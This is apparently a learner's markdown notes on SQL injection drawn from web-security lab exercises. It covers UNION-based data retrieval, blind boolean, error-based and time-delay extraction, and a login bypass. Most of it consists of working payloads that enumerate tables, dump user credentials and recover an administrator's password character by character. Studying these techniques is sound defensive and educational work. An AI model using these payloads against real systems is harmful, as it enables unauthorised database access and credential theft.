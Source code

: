 # Retrieving hidden data

## simple attack 
`https://insecure-website.com/products?category=Gifts` -> `SELECT * FROM products WHERE category = 'Gifts' AND released = 1` 
=> after injecting `'+OR+1=1--` -> `SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`

## Examining the database

> **determine number of columns/which column contains text**: `'+UNION+SELECT+'abc','def'+FROM+dual--`
> **database version**: `'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`

- On <mark style="background: #BBFABBA6;">MySQL and Microsoft</mark>
>  `'+UNION+SELECT+'abc','def'#`
>  `'+UNION+SELECT+@@version,+NULL#`
## Listing the contents 

- <mark style="background: #FF5582A6;">Oracle</mark>
>**number of columns**: `'+UNION+SELECT+'abc','def'+FROM+dual--`
>**list of tables in the database**: `'+UNION+SELECT+table_name,NULL+FROM+all_tables--`
>**details of the columns in the table**:`'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--`
>**usernames and passwords for all users**: `'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--`

- <mark style="background: #FF5582A6;">non-Oracle</mark>
>`'+UNION+SELECT+'abc','def'--`
>`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
>`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--`
>`'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--`

# Blind SQL injection
## triggering conditional responses

- let's say the original value of the cookie is `TrackingId=xyz`.
>1) **Modify the cookie**: `TrackingId=xyz' AND '1'='1` -> "Welcome back" message appears in the response
>2) **change it to**: `TrackingId=xyz' AND '1'='2` ->  "Welcome back" message does not appear in the response
>3) `TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a` ->  there is a table called `users`
>4) `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a` -> there is a user called `administrator`
>5) `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a` -> password is greater than 1 character in length.
>6) burp intruder/Repeater =>  password is 20 characters long.
>7) `TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§` -> first character
>8) `TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§` ->2nd character
>And so on...

## Error-based

### triggering conditional errors

- simple example:
> `xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a` -> evaluates to `'a'` => no error 
> `xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a` -> evaluates to `1/0` => divide-by-zero error
> => **you can retrieve data by testing one character at a time**: `xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

- another example:
  - let's say the original value of the cookie is `TrackingId=xyz`.
>1) **Modify the cookie**: `TrackingId=xyz'` -> error message is received
>2) **change it to two quotation marks**: `TrackingId=xyz''` -> the error disappears
>3) **confirm that the server is interpreting the injection as a SQL query**:
> - `TrackingId=xyz'||(SELECT '')||'` -> `TrackingId=xyz'||(SELECT '' FROM dual)||'` -> no error => oracle database(as we used dual) 
> - `TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'` -> error again
> 4) **verify that the `users` table exists** -> `TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`
> 5) **exploit this behavior to test conditions**: 
> - `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'` -> error received
> - `TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'` -> error disappears
>6) **check whether the username `administrator` exists**: `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
>7) **determine the length of administrator's password**:  `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>§1§ THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'` (use intruder)
>8) **test the character at each position to determine its value**: 
>- `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
>- `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'` 
>- and so on...
### verbose SQL error messages

  - let's say the original value of the cookie is `TrackingId=xyz`.
  >1) **Modify the cookie**: `TrackingId=xyz'` -> error message is received
  >2) **comment out the rest of the query**: `TrackingId=ogAZZfxtOKUELbuJ'--` -> comments the extra single quote -> no longer error 
  >3) **raise an error using `cast` keyword**: `TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--` -> error: `AND condition must be a boolean expression`
  >4) **modify the condition accordingly (to recieve no error)**: `TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--` -> no longer error
  >5) **use `SELECT` to retrive usernames from database**: `TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--` -> error: character limit 
  >6) **Delete the original value of the cookie(to free up some additional characters)**: `TrackingId='...` -> error: unexpectedly returned more than one row  
  >7) **Modify the query to return only one row**: `TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--` -> error leaks the first username: `ERROR: invalid input syntax for type integer: "administrator"`
  >8) **leak password**: `TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--` 
## triggering time delays

- simple example:
  >`'; IF (1=2) WAITFOR DELAY '0:0:10'--` -> condition false => no delay
  >`'; IF (1=1) WAITFOR DELAY '0:0:10'--` -> condition true => 10 sec delay
  >=> **retrive data using one character at a time**: `'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

let's say we have a *cookie* called `TrackingId` and the *database is PostgreSQL* .

- *example of time delays:*
  > `TrackingId=x'||pg_sleep(10)--` -> 10 sec delay

- *time delays and information retrieval*:
> 1) **10 sec conditional delay**: 
> - `TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--` -> true => delay
> - `TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--` -> false => no delay
> 2) **confirm `administrator` user**: `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
> 3) **determine the length of the password**(use intruder/repeater): `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>§1§)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
> 4) **extract the password**(use intruder/repeater): 
> - **first character**: `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
> - **2nd**: `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
> - and so on ...
##  out-of-band (OAST) techniques
#todo
# Subverting application logic

## simple attack 
`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'` 
=> submit username as `administrator'--` -> `SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`
# in different context 
#todo
# Second-order SQL injection 
#todo 
